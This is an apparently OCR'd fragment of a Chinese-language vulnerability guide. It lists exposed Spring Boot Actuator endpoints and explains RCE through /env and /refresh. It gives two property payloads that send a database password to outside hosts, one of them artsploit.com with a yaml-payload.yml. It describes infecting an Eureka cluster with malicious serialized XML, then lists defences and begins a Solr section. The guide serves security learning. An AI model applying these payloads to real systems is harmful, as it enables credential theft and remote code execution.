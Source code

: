 `/monitor/beans`

`/monitor/health`

`/monitor/conditions`

`/monitor/configprops`

`/monitor/env`

`/monitor/info`

`/monitor/loggers`

`/monitor/heapdump`

`/monitor/threaddump`

`/monitor/metrics`

`/monitor/scheduledtasks`

`/monitor/httptrace`

`/monitor/mappings`

`/monitor/jolokia`

`/monitor/hystrix.stream`

这里通过 `/env` + `/refresh` 进行 rce 应该还有其他利用手法, 当 spring boot reload 的时候会进行一些默认操作，里面就有操作空间, 很像 fastjson 反序列化。

2. 就算实在不能 RCE, 这里也有个技巧可以偷取 Spring 配置文件中的加密字段, 偷一下生产环境的密码 / key 也 ok

`eureka.client.serviceUrl.defaultZone=http://${somedb.pasword}@127.0.0.1:5000`

`spring.cloud.bootstrap.location=http://${somedb.password}@artsploit.com/yaml-payload.yml`

3. 尤其是使用 spring eureka 做集群的时候, 通常拿到一台服务器, 就可以传递恶意注册到其他 server, 从而感染整个微服务集群 eureka 通常是 server 也是 client, 无论对方请求什么都直接返回恶意序列化 xml 就可以了

**8.** **防护方法**

1. 及时更新补丁

2. 开启 Spring Boot Actuators 权限校验

3. 前置 WAF 进行防护  

8  

  

Solr 系列漏洞
---------

**1.** **漏洞简介**

Solr 是企业常见的全文搜索服务, 这两年也爆出很多安全漏洞,

**2.** **影响组件**

Solr
